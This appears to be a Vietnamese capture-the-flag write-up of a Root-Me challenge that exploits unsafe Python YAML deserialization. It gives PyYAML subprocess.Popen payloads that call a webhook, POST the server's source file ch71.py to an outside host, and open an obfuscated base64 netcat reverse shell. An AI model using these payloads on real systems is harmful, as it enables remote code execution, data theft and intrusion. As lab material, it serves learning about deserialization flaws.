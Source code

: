 Challenge: http://challenge01.root-me.org:59071/

Sau khi truy cập thì nó hiện: \
![alt text](image.png)\
Với URL: http://challenge01.root-me.org:59071/eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg

Decode URL ra: 
![alt text](image-1.png)

Tìm hiểu về Yaml: yaml thường là file cấu hình, đối với python yaml còn có thể `Thư viện python Yaml cũng có khả năng serialize các đối tượng python chứ không chỉ dữ liệu thô`


Với payload: 
```
yaml: !!python/object/apply:subprocess.Popen
- !!python/tuple
  - curl
  - https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc
```
![alt text](image-2.png)
Ta bắt được gói tin bên webhook: 
![alt text](image-3.png)


Tiếp tục khai thác: 
![alt text](image-4.png)
![alt text](image-5.png)
![alt text](image-6.png)
![alt text](image-7.png)

Lấy source code: 
```
!!python/object/apply:subprocess.Popen
- - sh
  - -c
  - curl -X POST -F file=@ch71.py https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc
```



Sau 1 lúc không tìm được flag:
![alt text](image-9.png)


Tìm cách tạo reverse shell:
```
yaml: !!python/object/apply:subprocess.Popen
- !!python/tuple
 - python
 - -c
 - "__import__('os').system(str(__import__('base64').b64decode('cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAwLnRjcC5hcC5uZ3Jvay5pbyAxNDI1NT4vdG1wL2Y=').decode()))"
```

![alt text](image-10.png)